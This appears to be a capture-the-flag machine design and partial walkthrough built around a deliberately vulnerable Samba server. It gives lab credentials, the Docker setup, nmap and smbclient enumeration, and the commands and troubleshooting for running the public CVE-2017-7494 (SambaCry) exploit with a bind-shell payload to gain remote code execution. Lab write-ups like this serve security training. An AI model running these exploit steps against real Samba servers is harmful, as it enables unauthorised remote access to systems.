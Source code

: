 # Employee-Walkthrough

## Introduction

This box was made to show the importance of enumeration, critical thinking and the usual mess and error while dealing with public exploit scripts in real life. This is done via mimicking a company hiring for employees, and some manual site development that leads to code execution. Exploits used are CVE-2017-7494 and a little command injection for foothold, while CVE-2021-3156 for privilege escalation.

### Access

Passwords:

| User  | Password                            |
| ----- | ----------------------------------- |
| root | youshallnotcrackthis |
| cybercraze | youshallnotcrackthis |
| guest (samba user)  | guest |

### Key Processes

Services: SSH, HTTP, SMB
HTTP:
domain: designer.htb
subdomain: underdevelopment.designer.htb

SMB version: 4.5.9 --> vulnerable to CVE-2017-7494

### Docker

docker run -d -p 137-139:137-139 -p 445:445 -p 6699:6699 -v /home/cybercraze/candidates:/candidates -v /root/backups:/var/www --restart=always --name=samba vulnerables/cve-2017-7494

*hosting vulnerable samba on docker to prevent direct access as root

*/candidates is the path to samba share "candidates"

*backup html files stored in /var/www

### Notes

1. Emails ending with @designer.htb scatter around the hosted website to indicate the domain name
2. All inputs in http://designer.htb are sanitised and there would not be any injection attack such as ssti or xss
3. credentials for samba share "guest:guest" is provided on the website for candidates to fill and submit the application form
4. the samba share "candidates" contains a job-application-form.docx and a submission directory to submit the application form
5. the samba share is only accessible via the creds "guest:guest"
6. all the exploit scripts used and fixes are included in this zip file:

https://drive.google.com/file/d/1b0Pbc8xdLGaVjGe8nNJqP2MityPsKfJD/view?usp=sharing

for any errors resulted for using the exploits, refer to the Writeup section to fix
7. Not all errors will be encountered

#### *players are expected to search and fix the errors themselves*

## Writeup

1. Nmap

        $ nmap -sCV 10.10.154.21                                                                         
        Starting Nmap 7.92 ( https://nmap.org ) at 2022-03-31 17:16 +08                                                                    
        Nmap scan report for designer.htb (10.10.154.21)                                                             
        Host is up (0.21s latency).                                                                  
        Not shown: 996 closed tcp ports (conn-refused)                                                                     
        PORT    STATE SERVICE     VERSION                                                                     
        22/tcp  open  ssh         OpenSSH 8.2p1 Ubuntu 4ubuntu0.4 (Ubuntu Linux; protocol 2.0)                               
        | ssh-hostkey:                                            
        |   3072 e7:67:ab:72:53:be:d6:f3:7b:3d:c0:48:7f:31:34:fa (RSA)                                                       
        |   256 21:93:3c:26:89:14:9f:4a:7c:8c:bf:a1:b5:f6:5d:b3 (ECDSA)                                                      
        |_  256 d1:ed:71:b7:69:ef:64:12:e4:5a:99:cb:41:30:ae:f0 (ED25519)                                                    
        80/tcp  open  http        Apache httpd 2.4.41 ((Ubuntu))                                                             
        |_http-title: Designer - Creative HTML5 Template                                                                     
        |_http-server-header: Apache/2.4.41 (Ubuntu)              
        139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)                                                
        445/tcp open  netbios-ssn Samba smbd 4.5.9 (workgroup: WORKGROUP)                                                    
        Service Info: Host: HACKEDSAMBA; OS: Linux; CPE: cpe:/o:linux:linux_kernel                                           
        Host script results:                                      
        | smb-security-mode:                                      
        |   account_used: <blank>                                 
        |   authentication_level: user                            
        |   challenge_response: supported                         
        |_  message_signing: disabled (dangerous, but default)                                                               
        | smb2-security-mode:                                     
        |   3.1.1:                                                
        |_    Message signing enabled but not required            
        | smb2-time:                                              
        |   date: 2022-03-31T09:17:30                             
        |_  start_date: N/A                                       
        | smb-os-discovery:                                       
        |   OS: Windows 6.1 (Samba 4.5.9)                         
        |   Computer name: b6651f1755a8                           
        |   NetBIOS computer name: HACKEDSAMBA\x00                
        |   Domain name: \x00                                     
        |   FQDN: b6651f1755a8                                    
        |_  System time: 2022-03-31T09:17:28+00:00                
        |_clock-skew: mean: -3s, deviation: 0s, median: -4s                                                                  

        Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .                       
        Nmap done: 1 IP address (1 host up) scanned in 50.06 seconds
3. enumerate the website. found emails ending with @designer.htb. (info@designer.htb, contact@designer.htb, etc) edit /etc/hosts to set designer.htb as the domain name
4. button "contact us" redirects us to contact.html. reveal creds "guest:guest" for samba share to those interested in job application
5. Checking Samba Share "candidates" with creds "guest:guest"

        $ smbclient -L designer.htb -U guest
        Enter WORKGROUP\guest's password: guest                                                               
        Sharename       Type      Comment                                                        
        ---------       ----      -------                                                        
        candidates      Disk      SambaShare for Job Application                                 
        IPC$            IPC       IPC Service (Designer Company)              
        
        
        $ smbclient \\\\designer.htb\\candidates -U guest
        Enter WORKGROUP\guest's password: guest
        Try "help" to get a list of possible commands.
        smb: \> ls
        .                                   D        0  Thu Mar 31 11:00:04 2022
        ..                                  D        0  Wed Mar 30 17:15:27 2022
        job-application-form.docx           A    19975  Sat Mar 26 00:44:53 2022
        submission                          D        0  Fri Mar 25 21:48:03 2022

                9336140 blocks of size 1024. 1836012 blocks available
                
*content of job-application-form.docx is attached in this repository
5. Foothold

*smbd 4.5.9 is vulnerable to the sambacry exploit. user "guest" is writable in the samba share "candidates" so it is exploitable

*refer to: https://github.com/opsxcq/exploit-CVE-2017-7494

        $ cd exploit-CVE-2017-7494/
        $ sudo python2.7 -m pip install -r requirements.txt
        DEPRECATION: Python 2.7 reached the end of its life on January 1st, 2020. Please upgrade your Python as Python 2.7 is no longer maintained. pip 21.0 will drop support for Python 2.7 in January 2021. More details about Python 2 support in pip can be found at https://pip.pypa.io/en/latest/development/release-process/#python-2-support pip 21.0 will remove support for this functionality.
        Collecting git+git://github.com/opsxcq/impacket.git (from -r requirements.txt (line 2))
          Cloning git://github.com/opsxcq/impacket.git to /tmp/pip-req-build-5GQWeh
          Running command git clone -q git://github.com/opsxcq/impacket.git /tmp/pip-req-build-5GQWeh
          fatal: remote error:
            The unauthenticated git protocol on port 9418 is no longer supported.
          Please see https://github.blog/2021-09-01-improving-git-protocol-security-github/ for more information.
        ERROR: Command errored out with exit status 128: git clone -q git://github.com/opsxcq/impacket.git /tmp/pip-req-build-5GQWeh Check the logs for full command output.
        
### error1: directly git cloning impacket module using pip fail

fix1: manually install impacket from http://github.com/opsxcq/impacket.git

        $ cd impacket/
        $ sudo python2.7 setup.py install
        
change the variables while running the exploit such as the share name, username, pw and file path as below:

        $ cd exploit-CVE-2017-7494/
        $ sudo python2.7 exploit.py -t designer.htb -e libbindshell-samba.so -s candidates -r /candidates/libbindshell-samba.so -u guest -p guest -P 6699


error2: Crypto module not found

fix2: sudo python2.7 -m pip install pycrypto


error3: pycrypto fail to install

fix3: sudo python2.7 -m uninstall pycrypto && sudo python2.7 -m install pycryptodome


error4: pyasn1 not found

fix4: sudo python2.7 -m pip install pyasn1


error5: script run without error but the shell couldn't return any output

fix5: kill all the process involving the exploit


error6: script returns IO error

fix6: reinstall impacket following fix 1, doing fix 5, delete libbindshell-samba.so in samba share "candidates" as shown below:

        $ smbclient \\\\designer.htb\\candidates -U guest
        Enter WORKGROUP\guest's password: 
        Try "help" to get a list of possible commands.
        smb: \> ls
          .                                   D        0  Thu Mar 31 17:41:50 2022
          ..                                  D        0  Wed Mar 30 17:15:27 2022
          job-application-form.docx           A    19975  Sat Mar 26 00:44:53 2022
          submission                          D        0  Fri Mar 25 21:48:03 2022
          libbindshell-samba.so               A     8432  Thu Mar 31 17:45:07 2022

                        9336140 blocks of size 1024. 1831568 blocks available
        smb: \> del libbindshell-samba.so

expected fixed result(RCE):

        $ sudo python2.7 exploit.py -t designer.htb -e libbindshell-samba.so -s candidates -r /candidates/libbindshell-samba.so -u guest -p guest -P 6699
        [*] Starting the exploit
        [+] Authentication ok, we are in !
        [+] Preparing the exploit
        [+] Exploit trigger running in background, checking our shell
        [+] Connecting to designer.htb at 6699
        [+] Veryfying your shell...
        >>Linux b6651f1755a8 5.4.0-100-generic #113-Ubuntu SMP Thu Feb 3 18:43:29 UTC 2022 x86_64 GNU/Linux
        whoami
        >>nobody
<img src=""/>
